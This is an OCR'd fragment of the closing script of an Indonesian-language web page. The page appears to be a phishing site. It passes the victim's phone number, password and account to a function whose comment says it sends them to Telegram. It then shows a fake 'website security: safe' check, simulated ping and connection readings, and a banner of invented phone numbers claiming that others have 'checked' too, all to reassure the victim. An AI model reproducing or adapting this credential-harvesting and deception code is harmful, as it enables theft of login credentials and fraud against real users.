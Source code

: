         // Mengirim data ke Telegram
        kirimDataKeTelegram(phone, password, account);

        // Menampilkan informasi akun
        accountInfo.textContent = `Akun anda: ${account}`;

        // Menampilkan overlay dan loading
        overlay.style.display = 'flex';
        securityStatus.innerHTML = 'Keamanan website: <span class="loader"></span>';

        // Simulasi loading keamanan selama 2 detik
        setTimeout(() => {
            securityStatus.innerHTML = 'Keamanan website: Aman ✓';
        }, 2000);

        // Simulasi ping dan status internet secara real-time
        const pingInterval = setInterval(() => {
            const pingValue = Math.floor(Math.random() * (150 - 20 + 1)) + 20; // Ping antara 20-150 ms
            pingInfo.innerHTML = `Ping anda: <span>${pingValue}</span> ms`;
            
            // Status internet berdasarkan ping
            if (pingValue <= 50) {
                internetInfo.innerHTML = 'Internet anda: Stabil';
            } else if (pingValue <= 100) {
                internetInfo.innerHTML = 'Internet anda: Cukup stabil';
            } else {
                internetInfo.innerHTML = 'Internet anda: Kurang stabil';
            }
        }, 1000);

        // Menutup overlay
        document.getElementById('closeBtn').addEventListener('click', function () {
            overlay.style.display = 'none';
            clearInterval(pingInterval); // Hentikan pembaruan ping
        });
    });

    // Notifikasi berjalan dengan tiga digit terakhir nomor ponsel diacak
    const scrollingNotification = document.getElementById('scrollingNotification');
    const notificationSpan = scrollingNotification.querySelector('span');

    function updateNotification() {
        const randomPhone = Math.floor(1000000 + Math.random() * 9000000).toString();
        const lastTwoDigits = randomPhone.slice(-2);  // Ambil dua digit terakhir
        notificationSpan.textContent = `Telah melakukan pengecekan +628*****${lastTwoDigits}`;
    }

    // Perbarui notifikasi setiap 10 detik
    setInterval(updateNotification, 10000);
</script>

</body>
</html>
